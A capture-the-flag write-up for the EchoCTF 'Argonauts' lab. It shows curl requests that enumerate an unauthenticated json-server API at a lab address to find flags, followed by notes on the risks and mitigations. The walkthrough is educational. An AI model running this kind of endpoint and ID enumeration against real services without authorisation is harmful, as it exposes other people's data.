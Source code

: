 
![jason1](https://raw.githubusercontent.com/Juno0w0/echoCTF_Writeups/refs/heads/main/Writeups/argonauts/jason1.png)
# Argonauts - CTF Writeup

**IP:** http://10.0.41.12:1337

---

## Introduction

The **Argonauts** machine from **EchoCTF** presents a challenge based on exploring a JSON API. The goal is to discover hidden flags by accessing different endpoints revealing information about vehicles, owners, and vehicle types. The machine runs on a JSON Server backend exposing data via RESTful endpoints.

---

## How json-server works

**json-server** is a tool that quickly creates a RESTful API from a JSON file, allowing CRUD operations over resources like `plates`, `owners`, and `types`. Each resource has a standard endpoint, and data can be retrieved or modified via HTTP calls.

---

## Reconnaissance and Exploration

Accessing `http://10.0.41.12:1337` shows documentation indicating:

![jason2](https://raw.githubusercontent.com/Juno0w0/echoCTF_Writeups/refs/heads/main/Writeups/argonauts/jason2.png)

- Initial endpoint: `/DMV`
- Hidden endpoint for the flag: `/??????`

A quick review of [json-server documentation](https://github.com/typicode/json-server) helps understand its operation. The first query can be done via `curl` or directly through the browser URL; for practical reasons, we use `curl` here:

```bash
curl http://10.0.41.12:1337/DMV
```

Response:

```json
[
  {
    "id": 1,
    "plate_id": 1,
    "owner_id": 2,
    "type_id": 1
  },
  {
    "id": 2,
    "plate_id": 4,
    "owner_id": 2,
    "type_id": 1
  }
]
```

---

## Detailed Exploration

### `/plate/1`

```bash
curl http://10.0.41.12:1337/plate/1
```

Response:

```json
{
  "id": 1,
  "number": "6535 XYZ",
  "type_id": 1
}
```

### `/plate`

```bash
curl http://10.0.41.12:1337/plate
```

Response (snippet):

```json
[
  {"id":1,"number":"6535 XYZ","type_id":1},
  {"id":2,"number":"3735 QWE","type_id":2},
  {"id":3,"number":"ETSCTF_JUNO_WAS_HERE_HEHEHE","type_id":2},
  {"id":4,"number":"4890 LKJ","type_id":1},
  {"id":5,"number":"2193 JGH","type_id":2}
]
```

---

### `/owner`

```bash
curl http://10.0.41.12:1337/owner
```

Response:

```json
[
  {"id":2,"name":"Name Surname other"},
  {"id":3,"name":"ETSCTF_JUNO_WAS_HERE_HEHEHE"}
]
```

---

### `/type`

```bash
curl http://10.0.41.12:1337/type
```

Response:

```json
[
  {"id":1,"name":"VAN"},
  {"id":3,"name":"CAR"}
]
```

---

## Last flag found

Querying the hidden endpoint suggested in the documentation:

```bash
curl http://10.0.41.12:1337/ETSCTF
```

Response:

```json
{
  "value": "ETSCTF_JUNO_WAS_HERE_HEHEHE"
}
```

---

## Security Risks

- Total exposure of sensitive data without authentication.
- Lack of access control and validation.
- Implicit IDOR due to use of sequential IDs.
- Unprotected hidden endpoint.

---

## Vulnerabilities

- Lack of authentication and authorization.
- Exposure of flags through public endpoints.
- Lack of permission validation in the API.

---

## Mitigation Measures

- Implement authentication and authorization in the API.
- Use non-predictable identifiers (UUIDs).
- Restrict HTTP methods in production.
- Monitor accesses and suspicious activities.
- Avoid exposing sensitive data in public environments.

---

## Teaching Conclusion

This challenge exemplifies how a json-server without security measures can easily expose confidential data. It is crucial to apply access controls, validate permissions, and avoid unnecessary exposures in RESTful APIs.

---

**-Writeup by SheepsStealer-**
